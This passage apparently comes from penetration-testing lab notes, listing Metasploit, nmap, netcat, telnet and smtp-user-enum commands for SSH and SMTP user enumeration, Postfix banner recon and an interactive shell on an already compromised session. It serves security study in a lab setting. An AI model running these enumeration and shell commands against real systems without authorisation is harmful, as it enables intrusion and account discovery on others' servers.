 ```shell
sessions 1
ls
/bin/bash -i
ls
whoami
exit

# Enumerate SSH users
use auxiliary/scanner/ssh/ssh_enumusers
set USERS_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
run
```

### 2.7. SMTP Enumeration

```shell
# Start PostgreSQL (required for Metasploit database functionality) and launch Metasploit
service postgresql start
msfconsole

# Create a dedicated workspace for SMTP enumeration to keep results organized
workspace -a SMTP_ENUM

# Set the target IP globally for all modules to avoid re-entering it
setg RHOSTS <target_IP>

# Enumerate the SMTP service version to identify the mail server software
use auxiliary/scanner/smtp/smtp_version
run

# Perform SMTP user enumeration to identify valid email accounts on the target
use auxiliary/scanner/smtp/smtp_enum
info  # Display module details, including required options
run
```

### 2.8. Postfix Recon: Basics

```shell
# Step 1: What is the SMTP server name and banner.
nmap -sV -script banner <target_IP>
# Banner: openmailbox.xyz ESMTP Postfix: Welcome to our mail server.

# Step 2: Connect to SMTP service using netcat and retrieve the hostname of the server (domain name).
nc <target_IP> 25

# Step 3: Does user "admin" exist on the server machine? Connect to SMTP service using netcat and check manually.
VRFY admin@openmailbox.xyz

# Step 4: Does user "commander" exist on the server machine? Connect to SMTP service using netcat and check manually.
VRFY commander@openmailbox.xyz

# Step 5: What commands can be used to check the supported commands/capabilities? Connect to SMTP service using telnet and check.
telnet <target_IP> 25
HELO attacker.xyz
EHLO attacker.xyz

# Step 6: How many of the common usernames present in the dictionary /usr/share/commix/src/txt/usernames.txt exist on the server. Use smtp-user-enum tool for this task.
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t <target_IP>
```